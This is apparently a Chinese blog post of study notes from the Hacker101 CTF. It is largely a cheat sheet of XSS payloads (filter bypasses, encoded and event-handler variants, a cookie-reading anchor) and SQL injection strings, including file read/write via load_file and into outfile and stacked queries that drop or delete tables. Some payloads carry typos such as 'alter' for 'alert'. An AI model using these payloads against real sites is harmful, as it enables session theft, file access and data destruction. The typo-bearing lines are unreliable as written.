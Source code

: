 ```yaml
---
title: "Hacker101总结"
date: 2019-10-20T16:39:55+08:00
draft: flase
---
```



# hacker101前5关总结

## 常见web漏洞

### 常见xss（Cross Site Scripting）（为了防止和css混淆，被叫做xss）

#### 常用测试

* 1. 直接攻击

`<script>alter('xss')</script>`

`<script>prompt('xss')</script>`

* 2. 闭合input

`'><script>alter('xss')</script>`

#### 绕过双引号过滤

* 1. 用html编码

`<script>alert(&quot;XSS&quot;)</script>`

* 2. 用js的`fromCharCode`函数

`<script>alert(String.fromCharCode(88,83,83))</script>`

#### 绕过script过滤

* 1. 用事件处理

`<BODY onload="alert('XSS')">`
`<IMG SRC="" onerror="alert('XSS')">`

* 2. 用img标签

`<IMG SRC="javascript:alert('XSS');">`
`<IMG SRC=javascript:alert('XSS')>`
`<IMG SRC=JaVaScRiPt:alert('XSS')>`

* 3. 用空字符（只在 IE 6.0, IE 7.0 有效）

`<SCR%00IPT>alert("XSS")</SCRIPT>`

#### 双引号配对bug

`<IMG """><SCRIPT>alert('XSS')</SCRIPT>">`

由于标签不完整，导致被浏览器修正后变成

`<img><script>alert('xss')</script>"&gt;`

#### meta标签

`<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">`

`PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K`为`<script>alert(‘XSS’)</script>`的base64编码

#### 畸形a标签

`<a onmouseover="alert(document.cookie)">xxs link</a>`

被浏览器修正后变为

`<a onmouseover=alert(document.cookie)>xxs link</a>`

#### utf-7

`<script>alert("XSS")</script>`用utf-7编码后变为

`+ADw-script+AD4-alert(+ACI-XSS+ACI-)+ADw-/script+AD4-`

然后将加号替换成连接符

`%2BADw-script%2BAD4-alert%281%29%2BADw-/script%2BAD4-`

### sql注入

#### 简单测试

* 1. 字符串注入

    `' and 1=2`

* 2. 整型注入

    ` and 1=2`

#### 猜解数据库

`' LENGTH(DATABASE())=1`

这一步可以通过sqlmap自动化实现

#### union注入

` union select 1`

#### load_file、into outfile、into dumpfile

` union select load_file('path/to/file')`

` into outfile 'path/to/file'`

` into dumpfile 'path/to/file'`

outfile和dumpfile的区别在于outfile是导出多行数据，他会转义换行符，适合导出多行数据
dumpfile是导出一行，但会保持源数据格式

这三个功能会被mysql`secure_file_priv`参数限制,具体如下

* 其中当参数 secure_file_priv 为空时，对导入导出无限制
* 当值为一个指定的目录时，只能向指定的目录导入导出
* 当值被设置为NULL时，禁止导入导出功能

默认情况下的值为`/var/lib/mysql-files`

#### 堆叠注入（stacked injection）

`;drop table xxx;`

`;delete from table xxx;commit;`

`;update xxx set sss='';commit;`

这个需要看具体环境支不支持执行多条语句，经过测试python2的mysqldb中的`cur.execute()`存在堆叠注入。但是python3中的pymysql并不会。

    












